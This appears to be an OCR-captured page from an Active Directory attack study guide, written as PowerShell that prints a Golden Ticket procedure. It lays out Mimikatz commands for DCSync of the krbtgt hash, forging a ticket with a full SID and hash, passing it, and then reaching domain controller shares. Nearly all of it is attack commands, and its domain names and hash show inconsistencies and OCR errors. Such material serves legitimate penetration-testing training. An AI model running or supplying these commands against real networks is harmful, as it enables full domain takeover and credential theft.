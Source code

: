 ```powershell
Write-Host "6. Load Mimikatz.ps1 on the new session using Invoke-command" -ForegroundColor White
Write-Host "7. Enter the new session using Enter-PSSession again" -ForegroundColor White
Write-Host "8. Now we can execute mimikatz on the DC" -ForegroundColor White
Write-Host "9. Keep note of krbtgt hash" -ForegroundColor White
Write-Host "10. Now go to any 'non domain admin' account" -ForegroundColor White
Write-Host "11. Load Mimikatz.ps1" -ForegroundColor White
Write-Host "12. Now we can create a ticket using the DC krbtgt hash" -ForegroundColor White
Write-Host "13. Now we can access any service on the DC" -ForegroundColor White

Write-Host "`n🔧 COMPLETE GOLDEN TICKET COMMANDS:" -ForegroundColor Yellow

Write-Host "`nStep 1: DCSync for KRBTGT Hash" -ForegroundColor Cyan
Write-Host "Invoke-Mimikatz -Command '\"lsadump::dcsync /user:dcorp\\krbtgt\"'" -ForegroundColor White

Write-Host "`nStep 2: Create Golden Ticket" -ForegroundColor Cyan
Write-Host "Invoke-Mimikatz -Command '\"kerberos::golden /User:Administrator /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-268341927-4156871508-1792461683 /krbtgt:a9b30e5bO0dc865eadcea941le4ade72d /id:500 /groups:512 /startoffset:0 /endin:600 /renewmax:10080 /ptt\"'" -ForegroundColor White

Write-Host "`nStep 3: Verify Golden Ticket" -ForegroundColor Cyan
Write-Host "klist" -ForegroundColor White
Write-Host "Invoke-Mimikatz -Command '\"kerberos::list\"'" -ForegroundColor White

Write-Host "`nStep 4: Use Golden Ticket for Domain Access" -ForegroundColor Cyan
Write-Host "# Access domain controller" -ForegroundColor Gray
Write-Host "dir \\\\DC01.cybercorp.local\C$" -ForegroundColor White
Write-Host "# Access file shares" -ForegroundColor Gray
Write-Host "dir \\\\FILE01.cybercorp.local\Shares" -ForegroundColor White
Write-Host "# Execute DCSync attacks" -ForegroundColor Gray
Write-Host "Invoke-Mimikatz -Command '\"lsadump::dcsync /user:dcorp\\Administrator\"'" -ForegroundColor White

Write-Host "`n⚠️ IMPORTANT NOTES:" -ForegroundColor Red
Write-Host "- Golden Ticket provides complete domain access" -ForegroundColor White
Write-Host "- Ticket is valid until expiration time" -ForegroundColor White
Write-Host "- Can be used from any machine in the domain" -ForegroundColor White
Write-Host "- Highly detectable by security monitoring" -ForegroundColor White
```

#### **Golden Ticket Parameter Explanation**
```powershell
# Golden Ticket Parameter Breakdown
Write-Host "=== GOLDEN TICKET PARAMETER EXPLANATION ===" -ForegroundColor Green

$goldenTicketParams = @{
    "/User" = "Target username for impersonation (e.g., Administrator)"
    "/domain" = "Target domain name (e.g., cybercorp.local)"
    "/sid" = "Domain SID (e.g., S-1-5-21-1234567890-1234567890-1234567890)"
    "/krbtgt" = "KRBTGT account NTLM hash (obtained via DCSync)"
    "/id" = "User RID (e.g., 500 for Administrator)"
    "/groups" = "Additional group RIDs (e.g., 512 for Domain Admins)"
    "/startoffset" = "Ticket start time offset in minutes (0 = now)"
    "/endin" = "Ticket lifetime in minutes (e.g., 600 = 10 hours)"
    "/renewmax" = "Maximum renewal time in minutes (e.g., 10080 = 7 days)"
    "/ptt" = "Pass the ticket to current session"
}

Write-Host "`nGolden Ticket Parameters:" -ForegroundColor Yellow
foreach ($param in $goldenTicketParams.GetEnumerator()) {
    Write-Host "  $($param.Key): $($param.Value)" -ForegroundColor White
}

```